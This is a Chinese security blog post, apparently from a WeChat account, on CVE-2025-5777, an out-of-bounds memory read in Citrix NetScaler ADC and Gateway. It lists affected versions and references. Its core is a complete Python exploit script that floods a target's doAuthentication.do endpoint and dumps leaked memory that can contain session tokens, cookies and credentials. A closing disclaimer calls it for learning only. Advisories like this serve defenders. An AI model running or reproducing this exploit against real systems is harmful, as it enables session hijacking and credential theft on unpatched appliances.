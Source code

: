 #  CVE-2025-5777｜Citrix NetScaler ADC和NetScaler Gateway内存泄漏漏洞（POC）  
alicy  信安百科   2025-07-13 12:02  
  
**0x00 前言**  
  
  
NetScaler ADC和NetScaler Gateway（以前称为Citrix ADC和Citrix Gateway）都是美国思杰（Citrix）公司的产品。  
  
  
Citrix Gateway是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。  
  
  
  
**0x01 漏洞描述**  
  
  
未经授权的攻击者可通过发送精心构造的网络请求，针对 Citrix NetScaler ADC 及 Citrix NetScaler Gateway 产品中存在的内存越界读取漏洞（CVE-2025-5777）发起攻击。  
  
  
利用此漏洞，能够非法读取设备内存中的敏感数据，其中包括用户会话令牌、Cookie 信息及各类认证凭据等关键信息，对系统安全与用户数据隐私构成严重威胁。  
  
  
  
**0x02 CVE编号**  
  
****  
CVE-2025-5777  
  
  
  
**0x03 影响版本**  
  
```
NetScaler ADC 14.1 < 14.1-43.56
NetScaler Gateway 14.1 < 14.1-43.56
NetScaler ADC < 13.1-58.32
NetScaler Gateway 13.1 < 13.1-58.32
NetScaler ADC 13.1-FIPS < 13.1-37.235-FIPS
NetScaler ADC 13.1-FIPS < 13.1-37.235-NDcPP
NDcPP < 13.1-37.235-FIPS
NDcPP < 13.1-37.235-NDcPP
NetScaler ADC 12.1-FIPS < 12.1-55.328-FIPS
NetScaler ADC 和 NetScaler Gateway 版本 12.1 和 13.0 已进入生命周期结束（EOL），并且存在漏洞，此外，所有使用 NetScaler 实例的 Secure Private Access 部署均受此漏洞影响。
```  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/win3zz/CVE-2025-5777  
  
```
#!/usr/bin/env python3

"""
Title: Citrix NetScaler Memory Leak Exploit
CVE: CVE-2025-5777
Script Tested on: Ubuntu 20.04.6 LTS with Python 3.8.10

"""

import sys
import asyncio
import aiohttp
import signal
import argparse
import re
from colorama import init, Fore, Style

# Init colorama
init(autoreset=True)

# Global flags
stop_flag = False
verbose = False
proxy = None
threads = 10
leak_detected_once = False
initial_check_done = False

def signal_handler(sig, frame):
    global stop_flag
    stop_flag = True
    print(f"\n{Fore.YELLOW}[+] Stopping gracefully...")

def hex_dump(data):
    for i in range(0, len(data), 16):
        chunk = data[i:i+16]
        hex_bytes = ' '.join(f'{b:02x}' for b in chunk)
        ascii_str = ''.join((chr(b) if 32 <= b <= 126 else '.') for b in chunk)
        print(f'{i:08x}: {hex_bytes:<48} {ascii_str}')

def extract_initial_value(content_bytes):
    global leak_detected_once
    try:
        content_str = content_bytes.decode("utf-8", errors="replace")
        match = re.search(r"<InitialValue>(.*?)</InitialValue>", content_str, re.DOTALL)
        if match and match.group(1).strip():
            leak_detected_once = True
            print(f"{Fore.GREEN}\n[+] Found InitialValue:")
            val = match.group(1)
            hex_dump(val.encode("utf-8", errors="replace"))
        elif verbose:
            print(f"{Fore.YELLOW}[DEBUG] No <InitialValue> tag with value found.")
    except Exception as e:
        print(f"{Fore.RED}[!] Regex parsing error: {e}")

async def fetch(session, url):
    full_url = f"{url}/p/u/doAuthentication.do"
    try:
        async with session.post(full_url, data="login", proxy=proxy, ssl=False) as response:
            if verbose:
                print(f"{Fore.CYAN}[DEBUG] POST to {full_url} -> Status: {response.status}")
            if response.status == 200:
                content = await response.read()
                if verbose:
                    print(f"{Fore.CYAN}[DEBUG] Response body (first 200 bytes): {content[:200]!r}")
                extract_initial_value(content)
            else:
                if verbose:
                    print(f"{Fore.RED}[DEBUG] Non-200 status code received: {response.status}")
    except aiohttp.ClientConnectorError as e:
        print(f"{Fore.RED}[!] Connection Error: {e}")
    except Exception as e:
        print(f"{Fore.RED}[!] Unexpected Error: {e}")

async def main(url):
    global stop_flag, leak_detected_once, initial_check_done
    connector = aiohttp.TCPConnector(limit=threads)
    timeout = aiohttp.ClientTimeout(total=15)

    async with aiohttp.ClientSession(connector=connector, timeout=timeout) as session:
        while not stop_flag:
            tasks = [fetch(session, url) for _ in range(threads)]
            await asyncio.gather(*tasks)

            if not initial_check_done:
                initial_check_done = True
                if not leak_detected_once:
                    print(f"{Fore.YELLOW}[+] No leak detected in initial round. Target likely not vulnerable.")
                    stop_flag = True
                    break
                else:
                    print(f"{Fore.GREEN}[+] Leak detected! Continuing to extract...")

            await asyncio.sleep(1)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-5777 Citrix NetScaler Memory Leak PoC (Educational Only)")
    parser.add_argument("url", help="Base URL (e.g., http://target.com)")
    parser.add_argument("-v", "--verbose", action="store_true", help="Enable debug output")
    parser.add_argument("-p", "--proxy", help="HTTP proxy URL (e.g., http://127.0.0.1:8080)")
    parser.add_argument("-t", "--threads", type=int, default=10, help="Number of concurrent threads (default: 10)")
    args = parser.parse_args()

    verbose = args.verbose
    proxy = args.proxy
    threads = args.threads

    signal.signal(signal.SIGINT, signal_handler)

    try:
        asyncio.run(main(args.url.rstrip("/")))
    except KeyboardInterrupt:
        print(f"\n{Fore.YELLOW}[+] Interrupted by user.")
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtohLbTKG5jibBibDWbMutviajCUEkHMFQ3yycxYhaWnW0WR4ltzanE2A7hQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX693420  
  
  
https://www.theregister.com/2025/07/07/citrixbleed_2_exploits/  
  
  
https://nvd.nist.gov/vuln/detail/CVE-2025-5777  
  
  
  
  
推荐阅读：  
  
  
[CVE-2023-4966｜Citrix NetScaler ADC & Gateway信息泄露漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484652&idx=1&sn=ae73147af98f1906138f12a66e75c088&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-6218｜WinRAR目录遍历远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486063&idx=2&sn=a3d57d6619d987a8d64a725f1bc82373&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-32756｜Fortinet多款产品存在远程代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485986&idx=2&sn=7a87bb2da8ae173794e4a4250b47452a&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
